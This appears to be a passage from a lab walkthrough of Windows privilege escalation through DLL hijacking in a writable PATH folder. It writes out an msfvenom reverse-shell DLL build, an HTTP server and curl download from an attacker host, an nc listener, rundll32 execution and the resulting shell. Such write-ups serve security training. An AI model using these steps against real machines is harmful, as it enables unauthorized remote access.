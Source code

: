 7) Reviewing Path Variable

```
cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

8) Generating Malicious srrstr.dll DLL

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

9) Starting Python HTTP Server on Attack Host

```
sudo python3 -m http.server 8080
```
10) Downloading DLL Target

```
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

11) Starting nc Listener on Attack Host

```
nc -lvnp 8443
```

12) Testing Connection

```
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

--> A Reverse shell is spawning with normal user rights

```
nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
```